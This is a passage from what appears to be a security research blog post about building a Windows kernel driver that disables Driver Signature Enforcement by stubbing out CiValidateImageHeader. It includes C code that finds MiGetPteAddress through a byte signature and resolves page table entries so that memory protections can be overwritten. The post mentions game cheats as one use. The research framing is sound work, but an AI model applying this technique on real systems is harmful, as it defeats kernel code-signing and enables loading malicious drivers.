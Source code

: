 Let’s craft a quick driver which will make things a bit easier to conceptualize when disabling DSE. Obviously this is going to have to be signed with a certificate once built to be loaded. For reasons that will become obvious in the next section, we’ll focus on stubbing out `CiValidateImageHeader` via read/write, but feel free to get creative with your solution. There are obviously plenty of places to hijack!

We start by modifying memory protection for `CiValidateImageHeader` in the kernel. The most straightforward way of doing this is by directly modifying page table entries (PTE) for virtual addresses. To grab the page table entry for `CiValidateImageHeader`, we will first need to find a method which allows us to translate a virtual address to its corresponding PTE.

For anyone who hangs out in the game cheat scene, you’ll know that the function that we use in this case is `MiGetPteAddress`. For a brilliant explanation on hunting this method down, check out [@33y0re](https://twitter.com/33y0re)‘s awesome blog post on [PTE overwrites](https://connormcgarr.github.io/pte-overwrites/) . Essentially, this function reveals the PTE base address that we need for later, which we can see below as `0FFFFCE8000000000` but updates on every reboot:

![](https://res.cloudinary.com/xpnsec/image/upload/v1652619682/g_cioptions-in-a-virtualized-world/image6_cjcasa.png)

To find this function we’re going to need to hunt through memory for a byte signature. We can do this with something like:

```
void* signatureSearch(char* base, char* inSig, int length, int maxHuntLength) {
	for (int i = 0; i < maxHuntLength; i++) {
		if (base[i] == inSig[0]) {
			if (memcmp(base + i, inSig, length) == 0) {
				return base + i;
			}
		}
	}

	return NULL;
}
...

```

By searching through memory for our signature matching `MiGetPteAddress`, we can extract the PTE base and resolve virtual addresses to PTE locations:

```
char MiGetPteAddressSig[] = { 0x48, 0xc1, 0xe9, 0x09, 0x48, 0xb8, 0xf8, 0xff, 0xff, 0xff, 0x7f, 0x00, 0x00, 0x00, 0x48, 0x23, 0xc8, 0x48, 0xb8 };

void* FindPageTableEntry(void* addr) {

	ULONG_PTR MiGetPteAddress = signatureSearch(&ExAcquireSpinLockSharedAtDpcLevel, MiGetPteAddressSig, sizeof(MiGetPteAddressSig), 0x30000);
	
	if (MiGetPteAddress == NULL) {
		return NULL;
	}
	
	ULONG_PTR PTEBase = *(ULONG_PTR*)(MiGetPteAddress + sizeof(MiGetPteAddressSig));
	ULONG_PTR address = addr;
	address = address >> 9;
	address &= 0x7FFFFFFFF8;
	address += (ULONG_PTR)PTEBase;
	return address;
	
}

```
